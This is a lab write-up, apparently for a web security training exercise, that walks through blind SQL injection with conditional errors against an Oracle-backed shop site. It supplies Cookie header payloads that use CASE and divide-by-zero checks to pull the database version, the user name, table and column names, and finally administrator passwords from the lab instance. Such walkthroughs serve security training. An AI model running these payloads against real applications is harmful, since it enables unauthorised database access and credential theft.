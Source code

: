 # Lab: Blind SQL injection with conditional errors

## Sitemap:

Path: `/`

Path: `/login`

Path: `/my-account`

Path: `/filter?category=Corporate+gifts`

Path: `/product?productId=2`

## Identification:

URL: `https://0ab8007d033a0f3780cb08ad00eb007b.web-security-academy.net/`

Payload: `Cookie: TrackingId=WpxCYwlTPGZT1jK5'; session=MZWBd0eG4IKK4gR65brcZWs8wcBWPkiX`

![](./Images/ID0.png)

![](./Images/ID1.png)

## Exploitation:

### Preparation:

Statement that evals to true:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```

![](./Images/Preparation0.png)

Statement that evals to false:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=9)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```

![](./Images/Preparation1.png)

```
Cookie: TrackingId=pgapJtljYilOUoU9'+and+'1'=+(select+'1'+from+dual)--+-; session=gHTI3VG5Hmm1PqDA2WPS6CzPGgbIdaYh
Cookie: TrackingId=pgapJtljYilOUoU9''; session=gHTI3VG5Hmm1PqDA2WPS6CzPGgbIdaYh
```

#### CASE:

```
Cookie: TrackingId='+or+'1'=+(CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
Cookie: TrackingId='+or+'1'=+(SELECT+CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END+from+dual)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
Cookie: TrackingId='or+1=(SELECT+CASE+WHEN+(1=1)+THEN+1+ELSE+1/0+END+FROM+v$version+WHERE+ROWNUM=1)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
```

### Get_version:

```
Cookie: TrackingId='or+1=(SELECT+CASE+WHEN+(banner+LIKE('Oracle%25'))+THEN+1+ELSE+1/0+END+FROM+v$version+WHERE+ROWNUM=1)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
```

![](./Images/Version0.png)

<br>

![](./Images/Version1.png)

<br>

```
Cookie: TrackingId='+or+'1'=+(SELECT+CASE+WHEN+(USER+like+('PETER'))+THEN+1+ELSE 1/0+END+from+dual)+--+-'; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
```

```
Oracle+Database+11g+Express+Edition+Release+11.2.0.2.0+-+64bit+Production
```

### Get_user:

```
The user is: PETER
```

<br>

```
https://www.beekeeperstudio.io/blog/how-to-check-oracle-version-and-edition#querying-the-vversion-dynamic-view
```

![](./Images/User0.png)

<br>

### Get_tables:

```
https://chartio.com/resources/tutorials/how-to-list-all-tables-in-oracle/
```

<br>

![](./Images/Tables0.png)

<br>

The table is `USERS`.

<br>

![](./Images/Tables1.png)

<br>

### Get_columns:

![](./Images/Col0.png)

<br>

![](./Images/Col1.png)

<br>

![](./Images/Col2.png)

### Get_Usernames:

THe user is `administrator`.

![](./Images/Username0.png)

### Get_Passwords:

```
7v02hg0azxslpzm6s7cv
```

![](./Images/passwd0.png)

```
5l5mjaghj7pfi6tejmg1
```
